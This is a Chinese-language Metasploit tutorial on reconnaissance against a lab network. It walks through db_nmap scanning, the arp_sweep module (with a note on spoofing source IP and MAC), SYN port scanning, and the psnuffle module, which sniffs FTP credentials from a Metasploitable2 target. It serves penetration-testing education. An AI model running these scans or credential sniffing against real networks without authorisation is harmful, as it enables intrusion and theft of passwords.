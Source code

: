 # 								Metasploit-Framework-USING

##### 基于 tcp 协议收集主机信息

> 我们前面学习了主动信息收集和被动信息收集，而且还学习了漏洞检测工具 NESSUS，接下来给大
> 家讲解使用 Metasploit 来对目标进行信息收集，这个过程包含了前面所有的方式以及多了一些更加极端
> 的获取信息方式 ，比如获取服务器的硬件信息，系统用户信息、进程信息等。

###### Metasploit 中的 nmap 和 arp_sweep 收集主机信息

> ```
> Metasploit 中也有 NMAP 工具
> db_nmap -sV 192.168.1.1 
> ```

###### ARP 扫描

> ```
> msf6 > use auxiliary/scanner/discovery/arp_sweep	#查看一下模块需要配置哪些参数
> msf6 auxiliary(scanner/discovery/arp_sweep) > show options	#配置 RHOSTS（扫描的目标网络）即可
> msf6 auxiliary(scanner/discovery/arp_sweep) > set RHOSTS 192.168.1.0/24	 #SHOST和SMAC用于伪造源IP和MAC地址msf6 auxiliary(scanner/discovery/arp_sweep) > set THREADS 30	#配置线程数
> msf6 auxiliary(scanner/discovery/arp_sweep) > run
> ```

###### 半连接方式扫描 TCP 端口

> ```
> msf6 > search portscan
> msf6 > use auxiliary/scanner/portscan/syn
> msf6 auxiliary(scanner/portscan/syn) > show options		#查看配置项
> msf6 auxiliary(scanner/portscan/syn) > set RHOSTS 192.168.1.1		#设置扫描的目标
> msf6 auxiliary(scanner/portscan/syn) > set PORTS 80		#设置端口范围使用逗号隔开
> msf6 auxiliary(scanner/portscan/syn) > set THREADS 20		#设置线程数
> msf6 auxiliary(scanner/portscan/syn) > run
> ```

##### 使用 auxiliary /sniffer 下的 psnuffle 模块进行密码嗅探

> ```
> msf6 > search psnuffle
> msf6 > use auxiliary/sniffer/psnuffle
> 
> msf6 auxiliary(sniffer/psnuffle) > info		#查看 psnuffle 的模块作用：
> 
> ##扩展：Dsniff 是一个著名的网络嗅探工具包、高级口令嗅探工具、综合性的网络嗅探工具包。##
> 
> msf6 auxiliary(sniffer/psnuffle) > show options
> msf6 auxiliary(sniffer/psnuffle) > run
> 
> ##新建一个终端窗口登录 ftp，Metasploitable2-Linux 靶机中已经开启了 ftp 服务可以直接登录。##
> 
> apt install lftp -y 		#安装 lftp 命令
> lftp -u msfadmin 192.168.1.180		#登录		密码:msfadmin
> lftp msfadmin@192.168.1.180:~> ls 		##连接成功后，进行下数据交互，查看 ftp 目录下的文件
> 		drwxr-xr-x 6 1000 1000 4096 Apr 28 2010 vulnerable
> 		
> 回到 MSF 终端可以看到用户名密码信息已经被获取。
> 					##嗅探完成后记得把后台任务关闭##
> msf6 auxiliary(sniffer/psnuffle) > jobs 		#查看后台运行的任务
> msf6 auxiliary(sniffer/psnuffle) > kill 0 		#kill job 的 ID，关闭 job
> ```
